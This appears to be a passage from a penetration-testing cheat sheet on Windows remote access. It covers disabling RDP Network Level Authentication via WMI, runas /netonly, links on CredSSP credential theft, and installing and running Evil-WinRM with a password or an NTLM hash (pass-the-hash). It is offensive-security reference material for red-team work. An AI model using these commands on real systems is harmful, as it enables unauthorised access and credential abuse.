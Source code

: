 ### NLA

Disable NLA:

```text
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

### Abusing CredSSP / TSPKG

* [https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/)

## runas

```text
PS > runas /netonly /user:snovvcrash powershell
```

## WinRM / PSRemoting

* [https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/](https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/)
* [https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/](https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons)

### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Install:

```text
$ git clone https://github.com/Hackplayers/evil-winrm ~/tools/evil-winrm
$ cd ~/tools/evil-winrm && bundle install && cd -
$ ln -s ~/tools/evil-winrm/evil-winrm.rb /usr/local/bin/evil-winrm
Or
$ gem install evil-winrm
```

Run:

```text
$ evil-winrm -u '[MEGACORP\]snovvcrash' -p 'Passw0rd!' -i 10.10.13.37 -s `pwd` -e `pwd`
$ evil-winrm -u '[MEGACORP\]snovvcrash' -H FC525C9683E8FE067095BA2DDC971889 -i 10.10.13.37 -s `pwd` -e `pwd`
```
